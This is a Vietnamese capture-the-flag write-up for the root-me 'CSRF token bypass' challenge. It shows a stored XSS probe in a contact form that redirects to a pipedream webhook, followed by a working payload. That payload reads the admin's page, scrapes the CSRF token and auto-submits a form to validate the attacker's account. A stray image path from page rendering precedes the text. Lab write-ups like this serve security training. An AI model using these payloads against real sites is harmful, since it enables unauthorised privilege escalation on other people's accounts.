 # root-me - CSRF token bypass

Sau khi `register` trang web có phần `Private` chứa flag, tuy nhiên để xem được flag cần được `validate` từ admin.

![validated form](validate.png)

Ta cần submit form này để có thể validate tuy nhiên chỉ admin mới có quyền.

Trang web có tính năng `contact`, thử trigger xss request đến `webhook endpoint` thì đúng dính thật.

![contact form](xss-contact.pnt)

**Payload**: trigger
```html
<script>window.location.href=".*pipedream.*"</script>
```

Một vài lưu ý nhỏ là bot ở root-me khá lâu đời rồi nên không xài được `fetch` để gửi `post request` nhưng không sao cả, ta dùng `XMLHttpRequest`.

**Payload**: Sau nhiều lần đập đi test lại
```html
<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
	<input id="username" type="hidden" name="username" value="devme">
	<input id="status" type="hidden" name="status" value="on" >
	<input id="token" type="hidden" name="token" value="#" />
</form>

<script>
	var xhttp = new XMLHttpRequest();

	xhttp.onload = function() {
		var results = this.responseText;
		var token = results.match(/name="token" value="(.*)"/)[1];
		document.getElementById("token").setAttribute("value", token);
		document.forms[0].submit();
	}

	xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile");
	xhttp.send();

</script>
```

Dán vào contact form và ngồi đợi thôi!

**flag**:
![flag](flag.png)
